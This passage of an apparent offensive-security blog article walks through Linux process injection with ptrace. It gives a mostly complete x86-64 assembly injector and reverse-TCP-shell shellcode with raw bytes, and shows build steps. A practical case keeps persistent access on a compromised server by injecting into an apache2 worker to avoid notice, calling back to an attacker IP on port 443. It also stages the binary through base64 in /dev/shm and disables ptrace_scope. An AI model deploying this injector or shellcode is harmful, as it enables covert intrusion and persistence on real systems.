        syscall

; -----------------------------------------

; 5 Controlled execution of the MMAP syscall

    ;PTRACE_SINGLESTEP
    mov rax, 101
    mov rdi, 9       ; PTRACE_SINGLESTEP
    mov rsi, r15     ; PID
    xor rdx, rdx     ; addr
    xor r10, r10     ; data
    syscall

    ; WAIT4: 
    mov rax, 61
    mov rdi, r15            ; PID to wait for (-1 for any child)
    sub rsp, 8
    mov rsi, rsp            ; &status
    xor rdx, rdx            ; options
    xor r10, r10            ; rusage
    syscall

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs_sys] ; pointer to the buffer where the register structure will be stored
    syscall
    

; -----------------------------------------

; 6 Retrieve the result of the MMAP syscall

    xor r12, r12 
    mov r12, [regs_sys+0x50]       ; (RAX) base address of the memory region allocated with RWX permissions

; -----------------------------------------

; 7 Restore the content at the address pointed to by the tracee's RIP register

        xor r14, r14
        mov r14, [regs_ori+0x80]

        ; PTRACE_POKEDATA (write to memory)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r14   ; addr 
        mov r10, r13   ; 8-byte value to write
        syscall

        ; Verify that the byte array was correctly restored
        ; PTRACE_PEEKDATA (read memory)
        ;mov rax, 101
        ;mov rdi, 2       ; PTRACE_PEEKDATA
        ;mov rsi, r15     ; PID
        ;mov rdx, r14     ; addr
        ;sub rsp, 8
        ;mov r10, rsp     ; pointer to data (address where the read info will be stored)
        ;syscall 

; -----------------------------------------

; 8 Restore the tracee process's original registers

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; pointer to the buffer holding the register structure
        syscall

; -----------------------------------------

; 9 Store the return RIP in the last 8 bytes of the memory region allocated by MMAP

        ; PTRACE_POKEDATA (write to memory)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        lea rdx, [r12+4088]   ; addr 
        mov r10, r14   ; 8-byte value to write
        syscall
        
        ; Verify that the return RIP value was written to the MMAP memory region
        
        ; PTRACE_PEEKDATA
        ;mov rax, 101
        ;mov rdi, 2       ; PTRACE_PEEKDATA
        ;mov rsi, r15     ; PID
        ;lea rdx, [r12+4088]     ; addr
        ;sub rsp, 8       ; 8 bytes
        ;mov r10, rsp     ; pointer to data (address where the read info will be stored)
        ;syscall 
        

; -----------------------------------------

; 10 Inject the shellcode into the allocated memory region (PTRACE_POKEDATA writes 8 bytes)

    xor r13,r13
    lea r13, [rel shellcode]   ; pointer to the shellcode
    xor r14, r14
    mov r14, sc_len / 8        ; counter of words to write
    push r12

    .loop_inj:

        cmp r14, 0     ; compare the word counter with 0
        jz .done       ; if counter == 0, jump to .done

        ; PTRACE_POKEDATA
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r12   ; addr 
        mov r10, [r13] ; 8-byte value to write
        syscall

        add r12, 8
        add r13, 8
        dec r14
        jmp .loop_inj

; -----------------------------------------

    .done

        ; Verify that the shellcode was written correctly
        ;mov rax, 101
        ;mov rdi, 2          ; PTRACE_PEEKDATA
        ;mov rsi, r15
        ;mov rdx, r12        ; mmap address
        ;sub rsp, 8       ; 8 bytes
        ;mov r10, rsp     ; pointer to data (address where the read info will be stored)
        ;syscall 

        pop r12

        mov qword [regs_ori+0x80], r12   ; RIP == address of the start of the allocated memory == shellcode start
        mov qword [regs_ori+0x78], -1    ; orig_rax = -1 (prevent syscall restart)

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; pointer to the buffer holding the register structure
        syscall

    ; PTRACE_DETACH
    mov rax, 101
    mov rdi, 17    ; PTRACE_DETACH
    mov rsi, r15   ; PID
    xor rdx, rdx   ; addr
    xor r10, r10   ; signal = 0 (send no signal)
    syscall

    ; EXIT
    mov rax, 60
    xor rdi,rdi 
    syscall

```

### `proc_inj_rev_tcp.asm` (Shellcode)

```nasm
section .text
global _start
_start:

    ; FORK
    mov rax, 57
    syscall

    cmp rax, 0           ; if rax==0 it is the child
    jz .child            

                            ; r11 because it is a clobbered register (destroyed by syscalls)
                                ; therefore no functional register of the tracee is being modified
    lea r11, [rel _start] ; r11 = address of _start = mmap_base = initial RIP of the shellcode

                            ; never assign a value to R11 before a syscall if you intend to recover it afterward

    ; Parent process
    mov r14, [r11+4088] ; obtain return address
    jmp r14             ; jump to the return address, overwriting the RIP register

.child

    ; SETSID
    mov rax, 112
    syscall

    ; SOCKET
    mov rax, 41
    mov rdi, 2 ;IPV4
    mov rsi, 1 ;TCP
    xor rdx, rdx ; Default
    syscall

    ; Store socket FD
    mov r8, rax

    ; CONNECT
    mov rax, 42
    mov rdi, r8
                    ;   Stack        Low  <----------- High
    ; Expected layout: 02 00 11 5c C0 A8 12 8D 00 00 00 00 00 00 00 00   
    ;                   └──┘  └──┘  └────────┘  └──────────────────────┘
    ;                   0-1   2-3   4-7         8-15         (16 bytes total)
    ;                   fam   port  IP          padding

    ; sockaddr_in field mapping:
                        ; Bytes 0-1:   02 00           → sin_family (AF_INET = 2)
                        ; Bytes 2-3:   11 5c           → sin_port (4444)
                        ; Bytes 4-7:   7F 00 00 01     → sin_addr (127.0.0.1)
                        ; Bytes 8-15:  00 00 00 00...  → sin_zero (padding)
    xor r9,r9 ; 0
    push r9 ; 64-bit zero padding (sin_zero)(8 bytes)
    mov r10, 0x0100007F5c110002
    push r10 ; sin_family + sin_port + sin_addr (8 bytes)
    mov rsi, rsp ; address of the top of the stack
    mov rdx, 16 ;IPV4 (expects 16 bytes)
    syscall

    xor rsi,rsi
.dup2:                        ; stdin(0), stdout(1), stderr(2) redirected to socket
    ;DUP2
    mov rax, 33
    mov rdi, r8
    syscall 
    inc rsi
    cmp rsi, 3
    jl .dup2

    ; EXECVE
    mov rax, 59

    push 0                       ; null terminator for /bin/sh -> /bin/sh\0
    mov r12, 0x68732f6e69622f    ; /bin/sh (2F 62 69 6E 2F 73 68) in little-endian
    push r12                     ; string /bin/sh
    mov rdi, rsp

    push 0                       ; argv = {NULL}
    mov rsi, rsp

    push 0                       ; envp = {NULL}
    mov rdx, rsp

    syscall 

.done:
    ; EXIT
    mov rax, 60                    ; syscall: exit
    xor rdi, rdi                   ; exit code = 0 (success)
    syscall
```

## Building

```bash
# Build the reverse shell shellcode
nasm -f elf64 proc_inj_rev_tcp.asm -o proc_inj_rev_tcp.o
ld proc_inj_rev_tcp.o -o proc_inj_rev_tcp

# Extract shellcode bytes (to update the injector's .data section)
objcopy -O binary --only-section=.text proc_inj_rev_tcp proc_inj_rev_tcp.bin
xxd -i proc_inj_rev_tcp.bin

# Build the injector
nasm -f elf64 proc_inj.asm -o proc_inj.o
ld proc_inj.o -o proc_inj

```

## Practical Case

A Linux server has been compromised and we have *root* access. The goal is to inject a reverse shell into a long-running process of a system user to maintain persistent access. As *root* there are no `ptrace_scope` restrictions (*root* can trace any process on the system regardless of its configuration).

First, edit the `proc_inj_rev_tcp.asm` script, since the modifications involve attacker-specific data. We need the IP address of the attacker machine and a listening port.

```bash
# Attacker machine
ip a
```



The attacker's IP is **192.168.18.245**, which in hexadecimal is `0xC0A812F5`. The listening port will be **443**, equivalent to `0x1BB`.

```nasm
; CONNECT
mov rax, 42
mov rdi, r8

;   Stack        Low  <----------- High
; Expected layout (16 bytes):
; 02 00 01 BB C0 A8 12 F5 00 00 00 00 00 00 00 00
; └──┘ └──┘ └────────┘ └────────────────────────┘
; fam  port      IP              padding

; sockaddr_in mapping:
; Bytes 0-1:  02 00         -> sin_family (AF_INET = 2)
; Bytes 2-3:  01 BB         -> sin_port   (443, big-endian)
; Bytes 4-7:  C0 A8 12 F5   -> sin_addr   (192.168.18.245)
; Bytes 8-15: 00 ... 00     -> sin_zero   (padding)

xor r9, r9
push r9                         ; 8 bytes of zeros (sin_zero)
mov r10, 0xF512A8C0BB010002      ; [02 00][01 BB][C0 A8 12 F5]
push r10                         ; fam+port+ip
mov rsi, rsp                     ; sockaddr_in*
mov rdx, 16                      ; sizeof(sockaddr_in)
syscall
```

Compile the script and extract the bytes that will form the shellcode to inject.

```bash
# Build the reverse shell shellcode
nasm -f elf64 proc_inj_rev_tcp.asm -o proc_inj_rev_tcp.o
ld proc_inj_rev_tcp.o -o proc_inj_rev_tcp

# Extract shellcode bytes (to update the injector's .data section)
objcopy -O binary --only-section=.text proc_inj_rev_tcp proc_inj_rev_tcp.bin
xxd -i proc_inj_rev_tcp.bin
```



The shellcode is 161 bytes. Since `PTRACE_POKEDATA` writes exactly 8 bytes per call, the total shellcode size must be a multiple of 8. The next multiple of 8 after 161 is 168, so 7 NOP bytes (`0x90`) are appended as padding to complete 168 bytes (168 / 8 = 21 writes).

Once the shellcode bytes are obtained, add the block to the injector script `proc_inj.asm`.

```nasm
; proc_inj.asm

shellcode:
    db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
    db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
    db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
    db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
    db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
    db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
    db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
    db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
    db 0x51, 0x49, 0xba, 0x02, 0x00, 0x01, 0xbb, 0xc0
    db 0xa8, 0x12, 0xf5, 0x41, 0x52, 0x48, 0x89, 0xe6
    db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
    db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
    db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
    db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
    db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
    db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
    db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
    db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
    db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
```

All that remains is to obtain the PID of the target process to complete the script configuration. Here we will use the `apache2` process belonging to the `www-data` user as our target (though one running as *root* could also be chosen if keeping privileges after the connection is desired), since it is a long-running process that tends to stay active on a web server and whose outgoing connections can pass more unnoticed.

```bash
# Victim machine
ps -u www-data -o pid,etime,cmd
```



One of the worker processes is chosen (PID **5204**) and the value is updated in `proc_inj.asm`.

```nasm
; proc_inj.asm

; PID    
mov r15, 5204
```

Once the injector script is configured, build it.

```bash
# Build the injector
nasm -f elf64 proc_inj.asm -o proc_inj.o
ld proc_inj.o -o proc_inj
```

Once we have the executable, it needs to be placed on the victim machine. There are numerous methods to do so, but if we do not have a fully interactive shell, my preferred option is to transfer it in Base64, reconstruct it in `/dev/shm` and execute it from there.

```bash
# Convert the binary to Base64 and display it
base64 -w 0 ./proc_inj > proc_inj.b64 && cat proc_inj.b64
```

Before executing on the target machine, remember to start listening on the configured port.

```bash
# Attacker machine
nc -nlvp 443
```

Once everything is ready, place and execute the injector on the target machine.

```bash
# Victim machine

# Decode Base64 to binary in memory (tmpfs), assign execute permissions and execute immediately
echo '<Base64>' | base64 -d > /dev/shm/proc_inj && chmod +x /dev/shm/proc_inj && /dev/shm/proc_inj
```

Immediately afterward, we receive the incoming connection from the victim.



## Security Considerations

For `ptrace` to work on the target process, **at least one of the following** privilege conditions must be met:

- The tracer must have the **same UID** **as the *tracee***.
- The tracer must have the **`CAP_SYS_PTRACE` capability**.
- The tracer must **run as `root`**.

Additionally, the file `/proc/sys/kernel/yama/ptrace_scope` indicates further restrictions:

| Value | Restriction |
| --- | --- |
| 0 | No restrictions |
| 1 | Only toward child processes |
| 2 | Only with `CAP_SYS_PTRACE` |
| 3 | Ptrace completely disabled |

It can be temporarily disabled with the following command:

```bash
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```

## Acknowledgements

Thanks for making it this far.

If you find errors or want to improve/extend the article, the blog content is open to Pull Requests. All contributions are welcome.

See you in the next article! ;)

---

!!! info "See also"
    [Reverse TCP Shell](reverse-shell.md) - The base Reverse TCP Shell technique used as the payload in this article
